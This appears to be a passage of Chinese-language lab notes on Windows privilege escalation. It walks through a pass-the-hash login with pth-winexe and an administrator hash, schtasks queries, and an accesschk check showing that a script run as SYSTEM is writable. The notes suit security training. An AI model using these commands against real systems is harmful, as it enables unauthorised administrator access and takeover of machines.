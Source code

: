 ```

```

## 密碼 - 傳遞哈希


### pth-winexe 連接

winexe的修改版本 pth-winexe 來使用管理員用戶的哈希獲取shell
```
pth-winexe -U 'admin%aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da' //10.10.140.182 cmd.exe
```



## Scheduled Tasks(計劃任務)


### schtasks 查詢正計畫任務 
這在這題沒用
```
schtasks /query /fo LIST /v

schtasks /query /tn  任務名 /fo list /v

```
* 重要資訊的是
Task to Run
Run As User


### 查看C:\DevTools\CleanUp.ps1腳本內容：

```
type C:\DevTools\CleanUp.ps1
```
根據該腳本似乎每分鐘都以 SYSTEM 身份運行。使用 accesschk.exe，請注意您可以寫入此文件：

### accesschk 查權限
```
C:\PrivEsc\accesschk.exe /accepteula -quvw user C:\DevTools\CleanUp.ps1
```
```

RW C:\DevTools\CleanUp.ps1
        FILE_ADD_FILE
        FILE_ADD_SUBDIRECTORY
        FILE_APPEND_DATA
        FILE_EXECUTE
        FILE_LIST_DIRECTORY
        FILE_READ_ATTRIBUTES
        FILE_READ_DATA
        FILE_READ_EA
        FILE_TRAVERSE
        FILE_WRITE_ATTRIBUTES
        FILE_WRITE_DATA
        FILE_WRITE_EA
        DELETE
        SYNCHRONIZE
        READ_CONTROL
```
* FILE_APPEND_DATA 附加數據
* FILE_WRITE_DATA 寫入數據
